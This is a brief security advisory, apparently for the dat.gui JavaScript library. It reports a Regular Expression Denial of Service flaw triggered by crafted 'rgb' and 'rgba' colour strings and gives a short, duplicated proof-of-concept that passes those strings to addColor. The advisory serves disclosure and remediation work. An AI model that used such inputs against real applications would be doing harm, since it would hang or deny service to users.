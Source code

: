 # Overview

`dat.gui` is s lightweight graphical user interface for changing variables in JavaScript. This package is vulnerable to Regular Expression Denial of Service (ReDoS) via. specifically crafted `rgb` and `rgba` values.

# Proof of Concept

```
var gui = new dat.gui.GUI();
var Options = function() {
this.color0 = "rgb( "; // CSS string
};

window.onload = function() {
var options = new Options();
gui.addColor(options, 'color0');
};

var gui = new dat.gui.GUI();
var Options = function() {
this.color0 = "rgba( "; // CSS string
};

window.onload = function() {
var options = new Options();
gui.addColor(options, 'color0');
};
```
